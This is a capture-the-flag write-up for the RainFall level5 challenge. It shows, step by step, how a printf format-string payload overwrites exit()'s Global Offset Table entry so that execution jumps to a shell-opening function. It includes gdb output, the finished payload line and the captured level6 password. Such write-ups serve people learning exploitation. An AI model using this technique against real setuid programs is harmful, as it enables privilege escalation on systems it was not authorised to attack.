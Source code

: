Level5 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

Level5 rights:
```Shell
level5@RainFall:~$ ls -la level5 
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

This binary has the same behaviour as the other one.
Decompiling with Ghidra on https://dogbolt.org/ shows the main difference with the previous executable: there is an uncalled function `o()` that opens a shell. The `n()` function also calls `printf()` and `exit()`.
Once again, we can exploit `printf()` the way we did before; however, we need to find access to the `o()` function.

The goal is to redirect the flow of execution towards `o()` perhaps by replacing the call to `exit()` by a call to `o()`.
First, let's find the address where the address of `exit()` is stored. This required learning about [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/)(Global Offset Table).
Let's disassemble `n()`:
```Shell
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```
This is not `exit()` address, but a call to a function that fetches `exit()`. So let's disassemble it as well:
```Shell
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

We can see that the first step consists in jumping to an address. The `x` option in gdb allows us to view the memory content at a specified address or a variable name. If we investigate this address, this is what we get:
```Shell
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```
Therefore the jump was indeed done to the address of `exit()`, which converted to little endian is: `\x38\x98\x04\x08`. This will be the first part of our payload, as it will sit at the start of our buffer.

Now let's get the address of `o()`:
```Shell
(gdb) x o
0x80484a4 <o>:  0x83e58955
```
This is the address of `o()` in decimal: 134513824. Why decimal? Because just like the previous exploit, we will use `%d` to rewrite a value with `%n`. So what we want is this: the address of `exit()` must be overwritten by the address of `o()`, so we'll pass it as decimal to be able to use `%n`. 

Finally, in order to give the right argument from the stack to `%n`, let's find our buffer's index:
```Shell
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Now we know it starts at the 4th index.

Our payload will be:
```Shell
python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")' > /tmp/payload5
```

And the result is:
```Shell
level5@RainFall:~$ cat /tmp/payload5 - | ./level5
[...]
512
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
